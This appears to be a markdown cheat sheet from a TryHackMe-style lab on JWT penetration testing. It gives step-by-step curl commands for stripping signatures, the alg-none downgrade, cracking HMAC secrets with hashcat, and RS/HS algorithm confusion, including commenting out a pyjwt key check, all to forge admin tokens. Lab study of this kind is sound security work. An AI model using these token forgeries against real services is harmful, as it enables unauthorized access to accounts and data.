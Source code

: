 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

#### Authenticate with a user and grab the JWT token from that user

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 
#### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

#### Grab the JWT token

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 

#### Authenticate with the JWT token

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user 

#### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

#### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

    curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE


#### Grab the JWT Token
    
    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

#### Authenticate with the JWT Token

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user 

#### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

#### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

#### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

#### Grab the plain text JWT header, change the Alg to None and encode it with base64.

#### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm. REMOVE THE EQUAL SIGN FROM THE BASE64 HEADER TO NOT GET ANY COMPLAINTS FROM THE SERVER RESPONSE!

    curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 4) Weak Symmetric Secrets

#### Grab JWT Token

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

#### Save the retrieved JWT in a text file

    nano jwt.txt 

#### Download a wordlist for JWT secrets

    wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list 

#### Use hashcat to crack the secret of the JWT token so that we can forge our own JWT token to gain access

    hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/jwt.secrets.list 

### Then go to jwt.io and do the following:

### Add the secret we just cracked down to the signature part where it tells us to enter our secret we just discovered.

### Then, modify any values we may find to gain admin access. Example: admin from 0 to 1.

### Then use this newly forged JWT token to authenticate:

    curl -H 'Authorization: Bearer CRACKED_SECRET_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 5) Signature Algorithm Confusion

#### Grab the JWT Token with the public key in this example

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 

### Go to jwt.io to make the changes or use the script provided from THM that we are going to use. Script will be located in scripts folder in here.

### Add the public key to the script and make the modifications: admin from 0 to 1 for example.
    
    pip3 install pyjwt (Import the library to interact with JWT tokens using python)

### Before running the script, edit the file /usr/lib/python3/dist-packages/jwt/algorithms.py and comment out the specific code snippet:

    # if is_pem_format(key_bytes) or is_ssh_key(key_bytes):
    #    raise InvalidKeyError(
         #       "The specified key is an asymmetric key or x509 certificate and"
         #       " should not be used as an HMAC secret."
          #  )

#### Run the script to generate our forged JWT token

    python3 signature-confusion-JWT.py 

#### Gain access with our modified JWT token

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin 

### 6) JWT Token Lifetimes

#### If a token does not have an 'exp' value set inside its claim portion of the token, this means that the token NEVER EXPIRES!

#### Also, check for the 'exp' value of a JWT if it is too short or long to verify it's lifespan.
